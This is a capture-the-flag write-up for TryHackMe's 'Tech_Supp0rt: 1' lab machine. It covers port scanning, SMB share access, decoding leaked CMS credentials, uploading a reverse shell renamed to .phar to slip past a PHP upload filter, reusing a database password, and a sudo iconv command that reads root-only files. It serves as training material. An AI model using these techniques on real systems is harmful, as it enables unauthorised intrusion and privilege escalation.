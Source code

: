 ```bash
# PLATFORM          . THM
# CTF NAME          . Tech_Supp0rt: 1
# DESCRIPTION       . Hack into the scammer's under-development website to foil their plans.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/techsupp0rt1
```

```
sudo nmap -sSVC -T5 -p- 10.10.49.184 -oN tech
```

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 108af572d7f97e14a5c54f9e978b3d58 (RSA)
|   256 7f10f557413c71dbb55bdb75c976305c (ECDSA)
|_  256 6b4c23506f36007ca67c1173c1a8600c (ED25519)

80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-12-19T14:22:51
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2023-12-19T19:52:50+05:30
|_clock-skew: mean: -1h49m59s, deviation: 3h10m30s, median: 0s
```

#### PORT 80

- The site defaults to the apache default site and the source code doesn't reveal anything useful.

- I decided to fuzz around a bit and found the following

```
fuff -u http://10.10.49.184/FUZZ -w /usr/share/wordlists/dirb/common.txt -t 100
```

```
phpinfo.php             [Status: 200, Size: 94963, Words: 4707, Lines: 1165]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
test                    [Status: 301, Size: 311, Words: 20, Lines: 10]
wordpress               [Status: 301, Size: 316, Words: 20, Lines: 10]
```

- `/test` is just a scammer-like website replica of microsoft.com that has a lot of popups and flashes on the screen.

- The source code did not reveal anything of interest, and fuzzing it further yield no result. 

- Fuzzing `/wordpress` directory on the other hand, reveals the existence of `wp-admin`, `wp-content`, `wp-include` and `xmlrpc.php` pages.

- I tried bruteforcing for the `admin` user but it didn't work. So I decided to look into ports 139 and 445 for now.

#### PORTS 139 & 445

- Using `smbclient -L 10.10.49.184` reveals the `websvr` share. 
- We can access it using `smbclient \\\\10.10.49.184\websvr` 

- The share holds the `enter.txt` file which reveals the following information

```
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:{REDACTED} [cooked with magical formula]
Wordpress creds
|->
```

- The wordpress credentials are missing, and the ones for subrion aren't working for either SSH or Wordpress.

- Alright. So we know there should be an endpoint called `subrion`. 


#### FOOTHOLD

- If we navigate to `http://10.10.49.184/subrion` we get a `timed out` with the address `http://10.0.2.15/subrion/subrion/`. 

- I decided to turn on burp suite and take a look around. The initial request is the one below, and, if we forward this, we end up with the second request, which is invalid, as the second directory does not exist.

```
GET /subrion HTTP/1.1
Host: 10.10.49.184
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: INTELLI_06c8042c3d=738fi7fgbi3ntave916q9dtf7i
Connection: close
```

```
GET /subrion/subrion/ HTTP/1.1
Host: 10.0.2.15
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

- However, after some googling, I found [this](https://github.com/intelliants/subrion). Subrion is a PHP CMS, and, as we can see in the repository, should have `robots.txt`.

- I reloaded the page so I can capture the first request again and added `/robots.txt` after `/subrion`.

```
GET /subrion/robots.txt HTTP/1.1
Host: 10.10.49.184
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: INTELLI_06c8042c3d=738fi7fgbi3ntave916q9dtf7i
Connection: close
```

- If we redirect this, then we're getting shown the content of `/robots.txt` file.

```
User-agent: *
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/
```

- Subrion login panel can be accessed by modifying the `GET request` to `GET /subrion/panel/`.

- The hash found in the `enter.txt` file (in SMB share) can be decoded using the following sequence: `From Base58` -> `From Base32` -> `From Base64`. 

- Alternatively, you can use the `Magic` formula on [cyberchef](https://cyberchef.org/#recipe=From_Base58('123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz',true)From_Base32('A-Z2-7%3D',true)From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=N3NLdm50WGRQRUpheGF6Y2U5UFhpMjR6YUZyTGlLV0Nr)

- I spent a while looking around the CMS to see what I can do. 

- As a side note, I completed the second requirement on the scammer's To-Do list. We can "fix" the `/subrion` directory by going to `System -> System` and setting the `Site URL` to `http://machine_ip/subrion`. 

- This will help us too, since we can use a regular browser and skip modifying requests if we want to access the panel later.

- Anyway. I found the `Content -> Uploads` page. I tried uploading the `enter.txt` file and, when I opened it, I was redirected to `/uploads/enter.txt`.

- So I tried uploading a reverse shell called `shell.php`, and then I went to `/uploads/shell.php`. However, I got `Forbidden. You don't have permission to access this resource.`

- This made me think that maybe this is a filter for `.php` files to avoid exactly this, uploading malicious files. So I've changed the file extension to `.phar` and uploaded it using the same method.

- This time, going to `/uploads/shell.phar` allows us to catch a revese shell (assuming we already have the listener running) as `www-data`. 

- The first thing I did after checking the basics (SUID, writable paths, capabilities, home directories, cron jobs, etc) was to check the `wp-config.php` file located in `/var/www/html/wordpress` 

```
/** MySQL database username */
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', 'I{redacted}!' );
```

- I tried using these credentials for `mysql` in order to dump the `wp_users` table, but I kept getting `bash: !123: event not found` and I assumed this was because my reverse shell stabilisation is a bit bugged this time.

- Anyway, before googling to find a fix for the problem, I took a look at `/etc/passwd` and I was that the user `support` is not even created on the system, so I tried the password with `scamsite` user.

- It worked and upon checking `sudo -l` for `scamsite`, I noticed that this user has access to run `/usr/bin/iconv` as sudo, which, according to GTFObins, allows us to read from files with higher privileges.

```
LFILE=/root/root.txt

sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "$LFILE"
```

- You can techinically read `/etc/shadow` to get the root hash and try to crack that, but I assume it's not the intended way so it probably would take a lot of time.


